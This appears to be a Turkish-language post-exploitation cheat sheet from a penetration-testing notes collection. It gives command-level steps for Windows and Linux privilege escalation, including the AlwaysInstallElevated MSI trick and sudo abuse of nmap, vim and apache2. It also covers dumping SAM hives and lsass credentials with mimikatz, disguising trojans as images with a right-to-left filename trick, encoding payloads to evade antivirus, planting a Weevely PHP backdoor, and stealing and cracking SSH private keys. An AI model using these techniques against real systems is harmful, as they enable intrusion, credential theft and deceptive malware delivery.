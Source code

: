 ## 09. POST EXPLOİTATİON (İSTİSMAR SONRASI):

### YETKİ YÜKSELTME (WINDOWS)
    systeminfo hotfix dosyalarına bak. Güncelleme almayan yamayı bul. Sisteme sok.Yetki yükselt.
    
    Güncellemelerin Kontrolü : wmic qfe get Description, HotFixID, InstalledOn
   
    Yüklü uygulamaların kontrolü :  “wmic product get name, version”
   
    Bilinmeyen Path Yollarını Kontrol Etme : accessChk.exe aracıyla 
    
    Msi paketinin yüklenmesinin kontrolü : “reg query 
    
    HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer”  -> PS ekranına komutu girin. Değer 1 olarak ayarlıysa zafiyet mevcuttur. Zafiyeti tetiklemek için msi paketi üretmek gerekir.
    Import-Module .\powerup.ps1
    Write-UserAddMSI ile kullanıcı oluştur.

### YETKİ YÜKSELTME (LINUX)
    ***Kernel kontrol et. “uname -a” ile kernel sürümüne bak. Exploit ara.
    “searchsploit” den ara

    *** sudo –l komutu ile sudoers yetkilerini kontrol et.  

    1.  .bash_history dosyası okunarak önceden girilmiş komutlar incelenir.
    2.	İçinde password geçen dosyalar find komutu ile taranır.
    3.	sudo -l komutu ile yetkilere bakıldığında;
    nmap:
    sudo /usr/bin/nmap --interactive yazarak nmap komut satırına düşebiliriz.  !sh yazılır.
    vim:
    sudo /usr/bin/vim –c ‘!/bin/sh’
    apache2:
    sudo /usr/sbin/apache2 –f /etc/shadow    (shadow dosyasının içini okuma)

###  Bilgisayar Açıkken SAM ve SYSTEM Dosyalarını Elde Etmek
	reg save hklm\SAM sam
	reg save hklm\SYSTEM system

### Shellter :
	Oluşturulan zararlıyı başka dosyayla birleştirme aracı.
    Windows örneği : 
	a -> Enter -> no -> putty.exe -> y
	7 payload var. l seçersek listeden c seçersek kendi payloadımız.
	l -> 1 -> ip adresi -> port -> 

### Fake Image Exploiter
	Github’dan indir. Setting dosyası ayarlarını değiştirme;
	1	Leafpad ile aç.
	2	picture extension : jpeg (resim formatını gir)
	3	payload extension : exe (trojan formatını gir)
	4	“bash FakeImageExploiter.sh” -> Programı çalıştır.
	5	exe dosyayı göster -> jpeg dosyayı göster -> icon seç -> isim gir -> ip gir -> port gir -> metot gir
	
 	Daha inandırıcı olması için herhangi bir programla icon resmini değiştirebiliriz.
	Uzantısını değiştirebiliriz;
	Dosya adını kopyala, not defterine yaz. Karakter işlemden sağdan sola methodunu seç. Dosya adını yeniden oluştur.

### Exe2Hex :
    exe dosyalarını binary kodlarına çeviren araç. Bu sayede virüs programları bulamıyor.
    Örnek : Önce payload oluşturuyoruz. (SET programı ile)
    1 -> 4 creat payload -> 2 -> local ip gir -> port gir -> trojen oluştu. (payload.exe)
    “exe2hex -x payload.exe -p payload.cmd”
    Oluşturulan payload.cmd dosyasını metin belgesi ile aç. En sonuna hemen çalışması için start payload.exe gir .Kaydet.
    Hedef pc’de çalıştığında önce exe haline çevirir. En son yazdığımız komutla o exe çalışır.

### Mimikatz :
    Windows üzerinde parola elde etmeye yarayan araç.
    1.	Görev yöneticisinden lsass.exe ‘yi dump al.
    2.	Dinleme moduna al;	
    mimikatz # privilege::debug
    3.	Dump dosyasını mimikatz klasörüne at yada yolunu belirt.
    mimikatz # sekurlsa::minidump lsass.dmp
    4.	mimikatz # sekurlsa::logonPasswords full

### Powersploit :
	Windows üzerinde powershell ile çalışır.

### Proxy Chains :
	Ağ testlerinde gizlilik sağlayan bir araç. (Tor ağı üzerinden). Hız olarak biraz yavaş.

### 4nonimizer :
	Ağ üzerinde gizlilik sağlar.

	https://github.com/Hackplayers/4nonimizer.git githubdan indir.
	
	./4nonimizer install -> Yükle
	
	./4nonimizer start -> Programı başlat. ip adresini değiştirir.Vpn mantığı. Durdurmak için stop komutunu kullan

### Weevely :
	Php sunucularda virüs programına ve güvenlik duvarlarına yakalanmayan troje oluşturmaya yarar.
	“weevely generate 12345 /root/...  .php” (Arka kapı oluşturma işlemi)
    “weevely hedefe_atmış_olduğun_dosya_yolu 12345”

### SSH Private Key
    Sisteme girdikten sonra yetkili kullanıcının SSH Private Keyini /home/yetkili_kullanıcı/.ssh dizini altından okuyorsak locale alıp id_rsa.txt olarak kaydet.
    
    python3 /usr/share/john/ssh2john.py id_rsa.txt > decrypted.txt   (john anlayacağı şekle dönüştürür)
    
    john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt (şifreyi kırar)
    
    ssh yetkili_kullanıcı@hedef_ip -i id_rsa.txt  (bağlan)  (yetki hatası verirse 0400 olarak chmod ver)
